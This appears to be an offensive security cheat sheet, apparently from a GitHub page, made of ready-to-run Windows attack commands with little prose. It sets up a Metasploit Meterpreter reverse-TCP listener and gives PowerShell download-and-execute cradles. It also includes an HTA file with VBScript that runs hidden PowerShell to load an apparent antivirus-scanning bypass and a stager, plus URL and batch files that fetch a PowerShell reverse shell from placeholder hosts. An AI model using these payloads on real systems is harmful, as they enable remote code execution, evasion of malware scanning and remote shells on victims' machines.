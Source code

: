 #### Start listener
```
sudo msfconsole -q -x 'use multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set LHOST <IP>; set LPORT 443; set ExitOnSession false; exploit -j -z'
```

#### Download and execute cradle PowerShell:
```
powershell.exe -nop -w hidden -C "IEX (New-Object System.Net.WebClient).downloadString('http://<IP>/runme.ps1')"
```

## HTA files
```
<html>
  <head>
    <title>Hello World</title>
  </head>
  <body>
    <h2>Hello World</h2>
    <p>This is an HTA...</p>
  </body>

  <script language="VBScript">
    Function Pwn()
      Set shell = CreateObject("wscript.Shell")
      shell.run "powershell.exe -nop -w hidden -c ""IEX ((new-object net.webclient).downloadstring('http://<IP>/amsi.txt'))""; ""IEX ((new-object net.webclient).downloadstring('http://<IP>/HTTPStager.ps1'))"""
    End Function

    Pwn
  </script>
</html>
```

## URL file
```
C:\Windows\System32\cmd.exe /c powershell IEX ((new-object net.webclient).downloadstring('http://xx.xx.xx.xx/amsi.txt')); IEX ((new-object net.webclient).downloadstring('http://xx.xx.xx.xx/Invoke-PowerShellTcp2.ps1'))
```

## Bat file
```
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://xx.xx.xx.xx/amsi.txt')); IEX ((new-object net.webclient).downloadstring('http://xx.xx.xx.xx/Invoke-PowerShellTcp2.ps1'))"

C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://xx.xx.xx.xx/amsi.txt')); IEX ((new-object net.webclient).downloadstring('http://xx.xx.xx.xx/Invoke-PowerShellTcp2.ps1'))"
```
